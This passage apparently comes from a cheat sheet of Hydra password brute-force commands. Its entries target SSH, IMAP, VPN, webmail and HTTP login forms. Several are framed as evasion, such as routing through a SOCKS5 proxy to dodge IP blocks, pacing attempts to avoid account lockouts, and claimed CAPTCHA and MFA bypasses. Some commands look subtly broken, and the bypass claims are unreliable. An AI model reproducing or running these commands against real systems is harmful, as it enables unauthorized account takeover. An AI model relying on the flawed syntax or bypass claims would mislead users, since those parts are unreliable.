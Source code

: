 6. **Evading IP-based Blocking**: Routes traffic through a SOCKS5 proxy to evade IP-based blocking mechanisms.
    ```bash
    hydra -l <username> -P <password_list> -s <proxy_port> -V -X socks5://<proxy_ip>:<proxy_port> ssh://<target_ip>
    ```
7. **Combining Wordlists for Comprehensive Attacks**: Combines multiple wordlists to ensure comprehensive coverage during brute-force attacks.
    ```bash
    cat wordlist1.txt wordlist2.txt | hydra -l <username> -P - ssh://<target_ip>
    ```
8. **Using CAPTCHA Bypass Techniques**: Incorporates CAPTCHA bypassing techniques for brute-forcing web applications that use CAPTCHA.
    ```bash
    hydra -l <username> -P <password_list> -m "captcha_field=captcha_code" http-get://<target_ip>/login
    ```

#### Real-world Use Cases and Scenarios

1. **Brute-force Attack on a VPN**: Targets VPN services using IKE for brute-forcing.
    ```bash
    hydra -l <username> -P <password_list> ike://<target_ip>
    ```
2. **Cracking Passwords for an Email Server**: Brute-forces an email server using the IMAP protocol.
    ```bash
    hydra -l <username> -P <password_list> imap://<target_ip>
    ```
3. **Bypassing Account Lockouts with Incremental Delays**: Introduces a delay after each failed attempt to avoid triggering account lockouts.
    ```bash
    hydra -l <username> -P <password_list> -t 1 -W 60 ssh://<target_ip>
    ```
4. **Attack Against Multi-factor Authentication (MFA)**: Attempts to bypass MFA by brute-forcing the OTP field along with the password.
    ```bash
    hydra -l <username> -P <password_list> -m "otp_field=123456" http-post-form://<target_ip>/login
    ```
5. **Brute-force Attack on a Webmail Login**: Targets a webmail login page for brute-forcing.
    ```bash
    hydra -L <username_list> -P <password_list> http-post-form "https://<target_ip>/login.php:username=^USER^&password=^PASS^:F=invalid"
    ```
6. **Targeted Attack on High-Value Accounts**: Focuses on high-value accounts like "admin" with custom SSH ports.
    ```bash
    hydra -l admin -P <password_list> ssh://<target_ip> -s 2222
    ```
7. **Exploiting Weak Password Policies**: Targets weak password policies by generating passwords of specific lengths and characters.
    ```bash
    hydra -l <username> -x 6:6:a -P <password_list> ssh://<target_ip>
    ```
8. **Distributed Brute-force Across Multiple Targets**: Distributes brute-force efforts across multiple targets to cover a larger attack surface.
    ```bash
    hydra -L <username_list> -P <password_list> -M <target_list> -t 64 -o results.txt
    ```
